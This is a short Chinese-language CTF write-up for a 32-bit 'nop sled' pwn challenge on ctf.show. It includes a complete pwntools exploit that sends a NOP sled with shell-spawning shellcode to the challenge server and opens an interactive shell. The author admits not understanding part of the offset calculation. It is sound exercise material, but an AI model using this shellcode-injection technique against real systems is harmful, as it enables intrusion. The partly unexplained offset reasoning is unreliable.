 # 挑战简介
32bit nop sled

# 思路
nop sled,nop('\x90')意为空值，一般代码执行到nop时，会自动跳过并执行下一条指令，是一个很好的覆盖值  

此题有一个基本的栈溢出，但是有一个随机值函数  
```
rand() % 1337 - 668
```

结果大致为[-668，668]  

所以我们的返回地址要保留一个偏移量668

看变量栈溢出位置0x15+0x8，wp说还要加个0x10，有点没弄懂  

```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"

context(os='linux', arch='i386', log_level='debug')

p = remote("pwn.challenge.ctf.show",28146)
elf = ELF('D:\edge 下载\pwn')

shellcode = asm(shellcraft.sh())

len_nop = 1336

p.recvuntil(b'location: ')

addr = eval(p.recvuntil(b'\n', drop = True))

shell_addr = addr + 668 + 0x2d

shellcode = len_nop * b'\x90' + shellcode

p.sendline(shellcode)

p.sendline(hex(shell_addr)) 

p.interactive()

```
